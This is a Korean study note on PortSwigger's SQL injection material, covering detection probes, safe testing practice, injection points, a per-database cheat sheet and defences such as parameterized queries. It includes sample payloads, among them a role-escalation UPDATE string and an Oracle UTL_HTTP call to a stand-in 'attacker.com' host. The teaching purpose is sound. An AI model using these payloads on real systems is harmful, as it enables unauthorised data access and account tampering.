

+++
date = '2026-05-27T15:23:15+09:00'
draft = false
title = '[Note] PortSwigger - SQL Injection 토픽 정리 및 실습'
summary = "SQL Injection의 정의와 진단 방법, 서비스 가용성을 고려한 안전한 진단 전략, 그리고 취약점이 발생하는 쿼리 지점별 유형을 정리한 자료"
toc = true
tags = ["SQL Injection", "PortSwigger", "Database"]
url = '/note/note-portswigger---sql_injection-토픽-정리-및-실습/'
+++

---

## 들어가며

PortSwigger Web Security Academy는 웹 해킹 주제별로 개념 설명과 실습 랩(Lab)을 제공하는 학습 플랫폼이다.  
SQL Injection, XSS, CSRF 같은 기초적인 기법부터 HTTP Request Smuggling, OAuth, JWT 등 상대적으로 고급 기법까지 폭넓은 토픽을 다룬다.


*https://portswigger.net/web-security*

이 글에서는 그중 SQL Injection의 기본 정의와 진단 방법, 실제 진단 시 참고하기 좋은 치트시트, 그리고 취약점이 발생하는 쿼리 지점별 유형을 정리한다.  
유형별 Lab 풀이는 별도의 Write-up으로 정리했으며, 본문 마지막에서 연결한다.

---

## SQL Injection이란?

SQL Injection은 공격자가 애플리케이션이 데이터베이스에 전달하는 쿼리를 조작할 수 있는 취약점이다.  
이를 통해 의도된 범위를 벗어난 데이터를 조회하거나, 인증을 우회하거나, 데이터를 변조하는 등 다양한 공격으로 이어질 수 있다.

경우에 따라서는 공격을 확장하여 데이터베이스 서버나 백엔드 인프라를 손상시킬 수 있으며, 이를 통해 서비스 거부(DoS)로 이어지기도 한다.

---

## SQL Injection 진단 방법

SQL Injection을 진단할 때 일반적으로 사용하는 테스트는 다음과 같다.

### 구문 오류 유발

`'` 문자를 삽입하고 오류나 그 밖의 이상 응답이 발생하는지 확인한다.  
`'`, `"`, `')`, `';` 등을 삽입해 쿼리 구조를 변형시키고, 그 결과 응답이 어떻게 달라지는지 분석한다.

### SQL 전용 구문 삽입

문자열 연결 연산이나 산술 연산식을 추가해, 삽입한 연산이 서버에서 실제로 평가되는지 확인한다.  
예를 들어 Oracle·PostgreSQL은 `Ap'||'ple`, MySQL은 `CONCAT('Ap','ple')`, Microsoft SQL Server는 `Ap'+'ple` 형태로 문자열을 연결한다. `10-0` 과 같은 산술식을 넣어 값이 계산되는지 확인하는 방법도 있다.

> `'+'` 는 Microsoft SQL Server의 문자열 연결 연산자이며, MySQL에서는 산술 연산으로 처리되므로 혼동하지 않도록 주의한다. DB별 문자열 연결 문법은 뒤의 치트시트에서 다시 정리한다.

### Boolean 구문 삽입

`OR`, `AND` 같은 Boolean 구문을 주입해 응답 차이를 살펴본다.  
예를 들어 `' AND '1'='1` 과 같은 조건식을 주입해, 조건식이 참·거짓으로 평가되어 응답이 달라지는지 분석한다.

### 시간 지연 유발

시간 지연을 발생시키는 구문을 삽입해 응답 시간의 변화를 확인한다.  
MySQL은 `SLEEP(1)`, PostgreSQL은 `pg_sleep(1)`, Microsoft SQL Server는 `WAITFOR DELAY '0:0:1'`, Oracle은 `dbms_pipe.receive_message(('a'),1)` 등 DB별 지연 구문을 사용한다.

### 외부 네트워크 요청 유발 (OAST)

외부 네트워크 요청을 발생시키는 구문을 삽입해 실제로 통신이 발생하는지 확인한다.  
예를 들어 Oracle에서는 다음과 같은 구문으로 OAST(Out-of-band Application Security Testing)를 수행할 수 있다.

```sql
SELECT UTL_HTTP.REQUEST('http://attacker.com') FROM DUAL
SELECT UTL_INADDR.GET_HOST_ADDRESS('my-collaborator-id.com') FROM DUAL
```

---

## 안전한 진단을 위한 전략

실제 진단에서는 서비스의 가용성을 해치지 않는 것이 무엇보다 중요하다.  
따라서 쿼리 구조를 파괴하지 않으면서 논리적 동작만 검증할 수 있는 Safe Payload 전략이 필요하다.

대표적인 Aggressive Payload인 `OR 1=1 --` 를 예로 들면, DB Full Scan을 유발하고 데이터 양이 많은 실무 환경에서는 DB Lock이나 DoS 같은 서비스 장애로 이어질 수 있다.  
CTF 페이로드에 자주 등장하는 주석 역시 쿼리의 뒷부분을 강제로 무시하게 만들어, `LIMIT`이나 `ORDER BY` 같은 구문이 사라지면서 애플리케이션 장애를 유발할 수 있다.

따라서 주석을 사용하지 않고 괄호 등을 닫아 원본 쿼리의 문법을 유지하거나, 앞서 설명한 문자열 연결 연산(`a'||'b`)이나 Boolean 데이터 범위 축소(`AND '1'='1`) 등을 활용해 논리적이고 비파괴적인 구문으로 진단을 수행하는 것이 중요하다.

---

## SQL Injection이 발생하는 여러 쿼리 지점

대부분의 SQL Injection 취약점은 `SELECT` 쿼리의 `WHERE` 절에서 발생하며, 가장 익숙한 유형이기도 하다.  
하지만 SQL Injection은 쿼리 내의 어느 위치든, 어떤 쿼리 유형이든 발생할 수 있다. 자주 발생하는 지점은 다음과 같다.

### UPDATE 구문

회원 정보 수정, 비밀번호 변경, 게시글 수정 등의 기능에서 주로 발생하며, `SET` 절과 `WHERE` 절 모두 취약할 수 있다.  
예를 들어 회원 수정 기능에서 `hacker@example.com', role='admin` 과 같은 페이로드를 입력하면 이메일과 함께 `role`까지 변경할 수 있다.

이때 주석을 잘못 사용하거나 `OR 1=1` 같은 Aggressive Payload를 사용하면, DB의 모든 사용자 계정이 한꺼번에 변경되는 등의 사고로 이어질 수 있다.

### INSERT 구문

회원가입, 게시글 작성, 로그 저장 등 데이터를 삽입하는 기능에서 주로 발생하며, 삽입 과정에 Subquery를 실행시켜 정보를 탈취할 수 있다.  
예를 들어 User Name 입력란에 `'||(SELECT version())||'` 같은 페이로드를 삽입하면, 생성된 계정의 User Name에 `PostgreSQL 14.1...` 과 같은 Subquery 결과가 삽입되도록 만들 수 있다.

### SELECT - 테이블·컬럼 이름

게시판 검색 조건이나 정렬 대상 컬럼을 동적으로 바꾸는 기능에서 자주 발생한다.  
테이블이나 컬럼 이름은 `?` 바인딩이 불가능해 Prepared Statement가 적용되지 않는 영역이며, 이 때문에 개발자가 `+` 등의 문자열 연결로 쿼리를 구성하는 경우가 많다.  
예를 들어 검색 대상 컬럼을 입력받는 위치에 `password` 를 삽입해 의도하지 않은 정보를 노출시키거나, 쿼리를 직접 완성시켜 SQL Injection을 수행할 수 있다. 테이블 이름 역시 같은 맥락에서 공격 대상이 된다.

### SELECT - ORDER BY

게시판 목록에서 "최신순", "이름순", "조회순" 등을 선택할 때 발생하며, 주로 Boolean-Based나 Time-Based 공격을 수행한다.  
예를 들어 `(CASE WHEN (SELECT 1=1) THEN price ELSE name END)` 과 같은 `CASE` 문을 활용하면, 조건식의 참·거짓에 따라 정렬 순서가 달라지도록 만들어 Boolean-Based SQL Injection을 수행할 수 있다.

---

## SQL Injection 치트시트

SQL Injection은 DB 종류별로 문법이 조금씩 다르다. 진단 시 자주 사용하는 핵심 구문을 정리하면 다음과 같다.

| 구분        | Oracle                               | Microsoft                   | PostgreSQL                | MySQL                     |
| ----------- | ------------------------------------ | --------------------------- | ------------------------- | ------------------------- |
| 문자열 연결 | `'foo'\|\|'bar'`                     | `'foo'+'bar'`               | `'foo'\|\|'bar'`          | `CONCAT('foo','bar')`     |
| 부분 문자열 | `SUBSTR('foobar',4,2)`               | `SUBSTRING('foobar',4,2)`   | `SUBSTRING('foobar',4,2)` | `SUBSTRING('foobar',4,2)` |
| 주석        | `--comment`                          | `--comment` / `/*comment*/` | `--comment`               | `#comment`                |
| 버전 조회   | `SELECT banner FROM v$version`       | `SELECT @@version`          | `SELECT version()`        | `SELECT @@version`        |
| 시간 지연   | `dbms_pipe.receive_message(('a'),1)` | `WAITFOR DELAY '0:0:1'`     | `pg_sleep(1)`             | `SLEEP(1)`                |

PortSwigger의 [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)에서 DB별 문법을 더 자세히 확인할 수 있다.

---

## SQL Injection 대응 방안

앞서 다룬 "안전한 진단을 위한 전략"이 진단자가 서비스 가용성을 해치지 않기 위한 관점이었다면, 이 절은 취약점 자체를 제거하기 위한 개발·방어 관점의 대응이다.

- **Parameterized Query(Prepared Statement) 사용**: 가장 근본적이고 효과적인 대응이다. 쿼리의 구조를 먼저 고정하고 사용자 입력은 파라미터(데이터)로만 전달하므로, 입력이 아무리 조작되어도 쿼리 구문으로 해석되지 않는다. 문자열 연결로 쿼리를 조립하는 방식을 지양하는 것이 핵심이다.
- **식별자는 화이트리스트로 검증**: 테이블·컬럼 이름이나 `ORDER BY` 정렬 방향처럼 `?` 바인딩이 불가능한 위치는 Parameterized Query로 보호되지 않는다. 이런 값은 반드시 미리 정의된 허용 목록(Whitelist)과 비교해, 목록에 없는 값은 거부해야 한다.
- **최소 권한 원칙(Least Privilege)**: 애플리케이션이 사용하는 DB 계정에 필요한 최소한의 권한만 부여한다. 그러면 Injection이 발생하더라도 조회·변조 가능한 범위가 제한되어 피해를 줄일 수 있다.
- **입력값 검증(심층 방어)**: 예상되는 형식(자료형·길이·문자 집합)을 기준으로 입력을 검증한다. 다만 필터링이나 이스케이프만으로는 우회 가능성이 있으므로, 단독 방어책이 아니라 Parameterized Query를 보완하는 심층 방어(Defense in Depth)로 취급해야 한다.
- **상세 오류 메시지 노출 제한**: DB 오류를 사용자에게 그대로 반환하지 않고 일반화된 오류로 처리한다. 오류 내용이 노출되면 DBMS 종류 추정이나 Error-Based Blind SQL Injection의 신호로 악용될 수 있다.

핵심은 **Parameterized Query로 쿼리 구조와 데이터를 분리**하는 것이며, 나머지 항목은 이를 보완하는 심층 방어에 해당한다.

---

## 실습

PortSwigger Web Security Academy의 SQL Injection 랩을 유형별로 풀어 정리했다.  
각 랩의 상세 풀이는 Write-up으로 별도 정리했으며, 아래는 유형별 개요다.

| 유형                          | 대표 Lab                                         | 난이도       |
| ----------------------------- | ------------------------------------------------ | ------------ |
| 기본 (WHERE 절 / 로그인 우회) | WHERE clause data retrieval                      | APPRENTICE   |
| DB 정보 수집                  | querying the database type and version           | PRACTITIONER |
| UNION 기반                    | UNION attack - retrieving data from other tables | PRACTITIONER |
| Blind - Boolean / Error       | conditional responses / conditional errors       | PRACTITIONER |
| Blind - Time / OAST           | time delays / out-of-band interaction            | PRACTITIONER |
| 필터 우회                     | filter bypass via XML encoding                   | PRACTITIONER |

전체 풀이는 [Write-up 아카이브](/write-up/)에서 확인할 수 있다.

---

## 마치며

이 글에서는 SQL Injection의 정의와 진단 방법, 서비스 가용성을 고려한 안전한 진단 전략, 그리고 취약점이 발생하는 쿼리 지점별 유형을 정리했다.  
SQL Injection은 가장 오래되고 잘 알려진 웹 취약점이지만, 발생 지점과 DB 종류에 따라 접근 방식이 달라지기 때문에 유형별로 정리해두는 것이 실제 진단에 도움이 된다.

특히 실무 진단에서는 취약점을 증명하는 것만큼이나 서비스에 영향을 주지 않는 것이 중요하므로, Aggressive Payload와 Safe Payload의 차이를 이해하고 상황에 맞게 선택하는 습관이 필요하다.  
이 글이 SQL Injection을 학습하거나 진단을 준비하는 과정에서 하나의 참고 자료로 활용되기를 바란다.

---

> 참고자료  
> https://portswigger.net/web-security/sql-injection  
> https://portswigger.net/web-security/sql-injection/cheat-sheet  
> https://portswigger.net/web-security/sql-injection/blind
